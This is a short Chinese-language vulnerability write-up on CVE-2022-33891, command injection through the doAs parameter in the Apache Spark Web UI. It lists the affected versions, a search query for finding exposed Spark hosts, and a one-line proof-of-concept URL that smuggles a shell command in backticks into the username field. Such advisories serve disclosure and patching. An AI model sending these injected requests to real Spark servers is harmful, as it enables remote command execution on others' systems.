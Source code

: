 # Apache Spark doAs 远程命令执行漏洞 CVE-2022-33891

## 漏洞描述

Apache Spark 支持启动 ACL 来为 Web UI 访问提供身份验证，当 ACL 启动时可以通过构造特殊请求用户名导致 RCE 

## 漏洞影响

<a-checkbox checked>Spark Core - Apache <=3.0.3</a-checkbox></br>

<a-checkbox checked>3.1.1 <= Spark Core - Apache <=3.1.2</a-checkbox></br>

<a-checkbox checked>3.2.0 <= Spark Core - Apache <=3.2.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="APACHE-Spark"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662174736577-4e5a3852-3359-43a2-8470-228e306f34e5.png)

验证POC

```html
/jobs/?doAs=`touch /tmp/test.txt`
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662174983427-249a9ba2-f516-45dc-b08e-206c2830ff81.png)